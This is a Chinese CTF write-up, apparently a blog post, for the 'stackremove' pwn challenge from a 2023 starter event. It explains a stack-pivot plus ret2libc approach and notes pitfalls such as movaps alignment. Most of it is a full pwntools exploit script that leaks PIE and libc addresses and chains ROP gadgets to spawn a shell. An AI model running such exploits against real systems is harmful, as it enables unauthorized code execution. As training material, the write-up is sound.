 ```yaml
---
title: 赛博协会训练营 - stackremove
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


from cbctf starter 2023

## 文件分析

下载`stackremove`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

栈上空间很大，但是溢出rbp的空间很小，因此考虑栈迁移后ret2libc  
第一步先找到栈上一个有程序偏移的地址，利用`printf(..., buf + offset)`输入输入偏移后算出pieBase，
然后读取buf地址，方便栈迁移

具体过程讲解可以看newstar2023中的`stack_migration`Writeup

## 踩过的坑

1. `scanf`中的函数会执行`movaps ..., xmm0`，也会检查rsp！下次见到这个指令就要多加一个ret
2. 本地调试找的main函数获取pieBase，结果一连接，崩了，一检查发现pieBase不对，在栈上找了一个其他函数

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote(???, 10043)
elf = ELF('stackremove')

# payload 1: get pieBase
sh.sendline(b'96') # locate __libc_csu_initAddr
sh.recvuntil(b'kie!') # skip
libcCsuAddr = u64(sh.recvline()[:6] + b'\0\0')

pieBase = libcCsuAddr - elf.symbols['__libc_csu_init']
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x953
leaveRetAddr = pieBase + 0x8ea
retAddr = pieBase + 0x8eb
mainAddr = pieBase + elf.symbols['main']

# print(hex(pieBase)) # check
sh.recvuntil(b':\n') # skip
space = int(sh.recvuntil(b'sh')[:14], 16)

# payload 2: migrate stack for the first time
sh.sendline(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(retAddr) + p64(mainAddr) + b'0'*0x38 + p64(space - 8) + p64(leaveRetAddr)) # scanf check rsp

sh.recvuntil(b'ot!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

sh.sendline(b'0') # no need this time
sh.recvuntil(b':\n') # skip

# payload 3: run system
space = int(sh.recvline()[:14], 16)
sh.sendline(p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr) + b'0'*0x48 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
